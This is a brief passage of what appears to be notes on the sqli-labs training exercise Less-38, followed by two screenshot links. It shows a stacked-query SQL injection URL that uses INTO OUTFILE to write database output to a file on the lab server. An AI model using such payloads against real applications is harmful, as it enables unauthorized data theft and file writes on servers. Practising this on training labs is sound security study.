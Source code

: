 ```sql
http://192.168.65.128/sqli-labs/Less-38/?id=1';
select 1,database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```

![](file/image_QSQ11ssoOc.png)

![](file/image_GXclkIFgtP.png)
